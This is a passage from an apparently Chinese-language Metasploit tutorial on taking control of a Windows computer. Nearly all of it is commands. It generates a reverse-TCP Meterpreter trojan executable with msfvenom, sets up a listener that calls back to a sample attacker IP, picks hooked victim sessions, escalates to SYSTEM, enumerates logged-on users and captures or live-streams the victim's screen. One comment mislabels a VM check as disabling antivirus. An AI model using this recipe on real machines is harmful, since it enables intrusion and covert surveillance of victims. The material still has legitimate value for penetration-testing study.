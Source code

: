 ```
migrate pid
run post/windows/manage/migrate
```

```bash
#检查是否运行在虚拟机上
run post/windows/gather/checkvm
#关闭杀毒软件 
run post/windows/gather/checkvm
#查看登录的用户
run post/windows/gather/enum_logged_on_users
#获取桌面截图
load espia
screengrab
```

#### 使用MSF控制Windows电脑

**生成可执行木马**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<本地ip> LPORT=<本地端口号> –f exe –o <文件名>.exe
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.168.1.173 LPORT=4444 –f exe –o shell.exe
```

**配置监听模块**

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.168.1.173
set lport 4444
run -z -j
# 查看上钩的用户
sessions
# 选择需要控制的用户
sessions -i 1
```

**权限提升**

```bash
# 查看当前权限
getuid
# 尝试提权，可能会有报错但是也是成功的
getsystem
```

**监控对方电脑屏幕**

```bash
# 截屏
screenshot
# 实时监控对方电脑屏幕
screenshare
```
